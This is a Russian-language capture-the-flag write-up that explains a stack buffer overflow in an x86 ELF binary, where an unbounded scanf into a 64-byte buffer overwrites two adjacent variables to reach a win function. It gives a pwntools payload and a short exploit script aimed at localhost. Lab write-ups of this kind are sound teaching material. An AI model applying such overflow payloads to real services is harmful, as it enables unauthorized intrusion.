




# Writeup
У нас есть исходный elf файл. Емли открыть его в ida, мы увидим следующую картину 





Здесь мы видим функция `scanf`, которая считывая данные в пременную `v1`, являющуюся `char` буффером . Если взглянуть в функцию `win`, можно убедится что эта функция выведет флаг, но как нам изменить значение флагов?





### Написение payload

Стоит обратить внимание на функцию `scanf` . Если прочитать ее описание, можно понять, что флаг который она использует, считывает все данные без контроля колличества ввода. Таким образом моно перезаписать данные в переменный `v2` и `v3` . Но если с с v3 все просто, и достаточно ввети символ @ что бы получить число 64(см. ASCII Table), то с 21 такой фокус не прокатит. Поэтому нужно использовать библиотеку `pwntools`на python

```python3
payload = b"A" * 64 + p32(21)  + p32(64)  
```

Эта команда позволит нам передать нужные нам данные. p32 используется потому, что файл скомпилирован под x86 архитектуру , и использует соотвествующие адреса. Весь код, с учетом передачи данных по nc будет выглядеть так

```python3
#!/usr/bin/env python3
from pwn import *

payload = b"A" * 64 + p32(21)  + p32(64)  

host, port = "localhost", 1234

p = remote(host, port)
log.info(p.recvS())         
p.sendline(payload)         
log.success(p.recvallS())   
p.close()
```

Остается только запустить


